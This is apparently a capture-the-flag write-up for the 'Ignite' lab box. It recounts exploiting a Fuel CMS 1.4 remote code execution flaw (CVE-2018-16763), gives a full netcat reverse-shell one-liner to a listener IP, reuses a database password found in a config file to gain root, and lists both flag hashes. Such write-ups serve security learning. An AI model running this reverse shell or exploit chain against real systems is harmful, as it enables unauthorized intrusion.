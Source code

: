 # Ignite

### Root it!
Nmap scan shows only port 80 open. Visiting this web page, it is powered by `Fuel CMS 1.4`. Looking online this version is vulnerable to RCE (CVE-2018-16763) and I found an exploit [here](https://github.com/n3m1sys/CVE-2018-16763-Exploit-Python3/blob/master/exploit.py).
I slightly modified the exploit code so that you don't have to have an open proxy on port 8080 like burpsuite, but you can just run it from the command line. The code can be found in `exploit.py` of this folder.<br />
So now I have RCE: <br />
![image](https://github.com/user-attachments/assets/833ab8a5-0e61-46eb-ae2d-686e691ca16d)<br />
So I'm going to use it to spawn a reverse shell. Open a netcat listener and send the command `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.11.85.53 4444 >/tmp/f` (adapt the command to your IP and port).<br />
Next, [stabilize the shell](https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal).
This was enough to get the first flag: <br />
![image](https://github.com/user-attachments/assets/4b9003aa-0671-4938-bc0a-2de86f63ca8f)<br />
Running linpeas I found some stuff. First of all, a set of DB credentials inside `/var/www/html/fuel/application/config/database.php`:<br />
![image](https://github.com/user-attachments/assets/dcd165aa-5bb3-46f2-9d72-7a346f40b4be)<br />
These are the credentials to log into root's mysql account. But, funny enough, `mememe` it's also the password to log into root. Run `su` and provide the found password to become root and get the second flag.<br /><br />
Lesson learned: I spent an hour trying to figure out how to perform privesc, running linpeas, trying some CVE's, checking vulnerable software versions, manually enumerating configuration files...<br />
At the end the path was much simpler than that, and I learned that some times a misconfigured system can use the same password for multiple purposes. Next time I should save every possible set of credentials I can find and use them on every service that requires authentication. 





- User.txt `6470e394cbf6dab6a91682cc8585059b`
- Root.txt `b9bbcb33e11b80be759c4e844862482d`
